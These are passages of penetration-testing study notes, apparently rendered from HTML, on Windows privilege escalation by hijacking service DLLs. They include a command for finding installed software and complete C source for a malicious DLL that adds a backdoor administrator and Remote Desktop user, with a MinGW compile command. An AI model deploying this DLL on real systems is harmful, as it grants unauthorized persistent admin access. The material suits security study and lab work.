 ```
<li>If the service&#39;s <code>StartMode</code> is set to &quot;Auto&quot;, we can reboot the system (if permissions allow)<ul>
<li>shutdown /r /t 0</li>
</ul>
</li>
</ul>
</li>
</ul>
<p><strong>Hijacking Service DLLs</strong></p>
<ul>
<li>Similar to hijacking binaries, can replace DLL with malicious code</li>
<li>Searching for DLLs:<ul>
<li><code>Get-ItemProperty &quot;HKLM:\SOFTWARE\(optional)Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*&quot; | select displayname</code> to find installed software</li>
<li>The versions of this software could be vulnerable to DLL hijacking (search it up)</li>
</ul>
</li>
<li>Can also replace missing DLLs with malicious ones<ul>
<li>This can be useful when we find a binary we can&#39;t modify that loads a missing DLL<ul>
<li>Will likely be looked for in a PATH location (check with <code>$env:path</code>), so we put it there</li>
</ul>
</li>
<li>We can find missing DLLs by copying user executables to our machine and checking them out with Process Monitor</li>
</ul>
</li>
<li>When making the DLL, we can again simply add an administrative user to the system using something like the following inside of <code>case DLL_PROCESS_ATTACH</code>:<ul>
<li><code>int i; i = system(&quot;net user /ADD tempuser&quot;); i = system(&quot;net localgroups administrators /ADD tempuser&quot;); break;</code></li>
<li>MinGW can compile C++ code into DLLs with the <code>--shared</code> flag<ul>
<li><code>x86_64-w64-mingw32-gcc dll.cpp --shared -o dll.dll</code>
```
#include <stdlib.h>
#include <windows.h></li>
</ul>
</li>
</ul>
</li>
</ul>
<p>BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
          i = system (&quot;net user kali kali123! /add&quot;);
          i = system (&quot;net localgroup administrators kali /add&quot;);
          i = system (&quot;net localgroup &quot;Remote Desktop Users&quot; kali /add&quot;);
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}</p>